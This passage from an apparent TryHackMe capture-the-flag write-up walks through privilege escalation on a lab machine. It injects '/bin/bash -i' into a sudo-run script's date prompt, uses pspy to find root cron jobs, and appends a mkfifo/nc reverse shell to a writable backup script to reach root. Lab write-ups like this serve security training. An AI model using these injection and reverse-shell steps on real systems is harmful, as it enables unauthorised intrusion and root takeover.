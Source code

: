   ```
  dale@TEAM:/home/gyles$ ls -al /var/stats/
  total 12
  drwxrwxrwx  2 root root    4096 Jan 21  2021 .
  drwxr-xr-x 15 root root    4096 Jan 15  2021 ..
  -rw-rw-rw-  1 dale editors  112 Jan 21  2021 stats.txt
  ```
  
- In order to escalate to `gyles` we can just run the script and instead of providing actual date we will provide `/bin/bash -i`. For username you can use anything. Keep in mind, after providing time, you wont't be able to see your inputs, so do the classic putty shell.

  ```
  dale@TEAM:/home/gyles$ sudo -u gyles /home/gyles/admin_checks
  Reading stats.
  Reading stats..
  Enter name of person backing up the data: bimbo
  Enter 'date' to timestamp the file: /bin/bash -i
  The Date is python3 -c 'import pty;pty.spawn("/bin/bash")'
  The Date is gyles@TEAM:/home/gyles$ whoami
  gyles
  gyles@TEAM:/home/gyles$ id
  uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
  ```

- Now we have to escalate to root. I spent a lot of time enumerating here and in the end I found a script that can do all of that for us. You can download `pspy64` from [here](https://github.com/DominicBreuker/pspy)

- Move the script to target machine with HTTP server and run it.

  ```
  gyles@TEAM:/home/gyles$ ls
  admin_checks  pspy64s
  
  gyles@TEAM:/home/gyles$ chmod +x pspy64s 
  gyles@TEAM:/home/gyles$ ls
  admin_checks  pspy64s
  
  gyles@TEAM:/home/gyles$ ./pspy64s
  ```

- Script will go on until you stop it and output will be crazy long, here are the files that we are looking for.

  ```
  2025/05/16 20:04:01 CMD: UID=0    PID=2329   | /bin/bash /usr/local/bin/main_backup.sh 
  2025/05/16 20:04:01 CMD: UID=0    PID=2331   | /bin/bash /usr/local/sbin/dev_backup.sh 
  ```

- `main_backup.sh` is owned by root but admin group can run it, and `gyles` is a part of admin group. Let's put a reverse shell there, start a listener on another terminal and wait for script to run automatically after a minute.

  ```
  gyles@TEAM:/home/gyles$ ls -al /usr/local/bin/main_backup.sh
  -rwxrwxr-x 1 root admin 65 Jan 17  2021 /usr/local/bin/main_backup.sh

  echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [YOUR-THM-IP] 5555 >/tmp/f" >> /usr/local/bin/main_backup.sh

  nc -lvnp 5555
  listening on [any] 5555 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.1.78] 54602
  /bin/sh: 0: can't access tty; job control turned off
  # whoami
  root
  # cat /root/root.txt
  THM{fhqbznavfonq}
  ```
